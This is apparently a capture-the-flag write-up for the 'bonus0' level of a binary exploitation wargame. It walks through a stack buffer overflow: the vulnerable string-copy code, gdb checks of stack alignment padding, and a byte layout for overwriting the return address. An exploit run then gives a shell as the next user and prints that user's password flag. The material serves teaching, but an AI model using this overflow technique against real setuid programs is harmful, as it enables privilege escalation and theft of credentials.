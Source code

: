 # bonus0

## Header

```bash
ssh bonus0@192.168.64.9 -p 4242
...
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus0/bonus0
```

<hr>

## Solution

From the following lines we can understand that the program is vulnerable to `buffer overflow`:
``` c
void p(char *dst, const char *message) {
   ...
   strncpy(dst, tmp_buf, 20);
}

void pp(char *buffer0) {
    char buf1[20];
    char buf2[20];

    p(buf2, " - ");
    p(buf1, " - ");

    strcpy(str, buf2);

    str += ft_strlen(str);
    *str = ' ';
    *(str + 1) = '\0';

    strcat(str, buf1);
```

From this line in the [source.s](./source.s) we can understand that the stack was aligned to 16 bytes.
```asm
  and    $0xfffffff0,%esp
```

`gdb` helps us to find out that stack was increased on `8 bytes` during alignment:
```bash
(gdb) b *0x080485a7
Breakpoint 1 at 0x80485a7
(gdb) r 
Starting program: /home/user/bonus0/bonus0 
Breakpoint 1, 0x080485a7 in main ()
(gdb) x $esp
0xbffff708:     0x00000000
(gdb) ni
0x080485aa in main ()
(gdb) x $esp
0xbffff700:     0x080485d0
(gdb) ! $((0xbffff708 - 0xbffff700))
bash: 8: command not found
```

Simple calculations:
`42 bytes` to fill array and `8 bytes` of padding + `4 bytes` to overwrite address = `54 bytes`. <br>
`20 bytes` of non-terminated `buf2` following `20 bytes` of non-terminated `buf1` + `1 space` + `20 bytes` of non-terminated `buf1` again gives us `61 bytes` meaning the attack is feasible.

Here's the scheme of the filling:
```text
|          buffer, 42 bytes         | padding, 8 bytes | addr, 4 bytes  |  junk, 7 bytes  |
| b2, 20 | b1, 20 | 1 space | b1[0] |   b1[1] - b1[8]  | b1[9] - b1[12] | b1[13] - b1[19] | 
```

You should definitely check [payload.py](./payload.py) file!

Now, let's exploit:
```
bonus0@RainFall:~$ nano /tmp/payload.py
bonus0@RainFall:~$ python /tmp/payload.py > /tmp/payload
bonus0@RainFall:~$ cat /tmp/payload - | ./bonus0 
 - 
 - 
XXXXXXXXXXXXXXXXXXXX011111111����3344445��� 011111111����3344445���
whoami
bonus1
cd ../bonus1
ls -la
total 17
dr-xr-x---+ 1 bonus1 bonus1   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 bonus1 bonus1  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 bonus1 bonus1 3530 Sep 23  2015 .bashrc
-rw-r--r--+ 1 bonus1 bonus1   65 Sep 23  2015 .pass
-rw-r--r--  1 bonus1 bonus1  675 Apr  3  2012 .profile
-rwsr-s---+ 1 bonus2 users  5043 Mar  6  2016 bonus1
cat .pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

## References

